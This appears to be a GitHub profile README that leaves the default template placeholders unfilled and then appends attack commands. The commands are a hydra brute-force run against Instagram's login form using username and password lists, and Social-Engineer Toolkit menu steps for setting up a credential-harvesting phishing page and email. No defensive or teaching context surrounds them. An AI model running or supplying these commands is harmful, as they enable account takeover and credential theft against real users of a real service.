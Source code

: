 - 👋 Hi, I’m @Aeratic20x
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Aeratic20x/Aeratic20x is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
hydra -L usernames.txt -P passwords.txt instagram.com http-post-form "/login/?next=/accounts/onboarding/": "username=^USER^&password=^PASS^:F=incorrect"
setoolkit
# Choose option 1: Social-Engineering Attacks
# Choose option 2: Website Attack Vectors
# Choose option 2: Credential Harvester Attack Method
# Follow the prompts to set up the phishing page and email.
